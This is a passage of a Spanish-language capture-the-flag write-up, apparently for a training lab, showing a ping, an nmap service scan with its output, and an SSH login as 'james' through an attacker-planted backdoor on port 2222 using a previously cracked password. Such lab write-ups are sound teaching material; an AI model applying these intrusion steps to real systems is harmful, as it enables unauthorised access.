 En la etapa final de esta sala, nuestro objetivo es hackear el servidor utilizando la información previamente capturada y recuperar las banderas de usuario y root.

Para iniciar, procedemos lanzando el comando `ping` desde nuestro equipo atacante para verificar la disponibilidad de la máquina objetivo.

```bash
❯ ping -c 1 10.10.238.4
PING 10.10.238.4 (10.10.238.4) 56(84) bytes of data.
64 bytes from 10.10.238.4: icmp_seq=1 ttl=61 time=342 ms

--- 10.10.238.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 341.657/341.657/341.657/0.000 ms
```

Posteriormente, realizamos un escaneo de la máquina de destino utilizando **NMAP**.

```bash
❯ nmap -sV -sC --min-rate 5000 10.10.238.4 -oN services.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-04 22:05 -05
Nmap scan report for 10.10.238.4
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e43abeedffa702d26ad6d0bb7f385ecb (RSA)
|   256 fc6f22c2134f9c624f90c93a7e77d6d4 (ECDSA)
|_  256 15fd400a6559a9b50e571b230a966305 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2a6d21879e3b020a24faab6ac2e6bf2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.85 seconds
```

El reporte revela que hay tres puertos abiertos en la máquina de destino, uno de los cuales corresponde al backdoor instalado por el atacante, que se encuentra en el puerto `2222`.

Accedemos al sitio web y nos encontramos con una imagen de lo que parece ser un cactus comiendo una galleta, acompañada por el encabezado "**H4ck3d by CooctusClan**".

![web](web.png)

Dado que hemos descifrado previamente la contraseña utilizada por el atacante para el backdoor SSH, ahora podemos acceder directamente al sistema utilizando este protocolo.

```bash
❯ ssh james@10.10.238.4 -p 2222
james@10.10.238.4's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ whoami
james
```
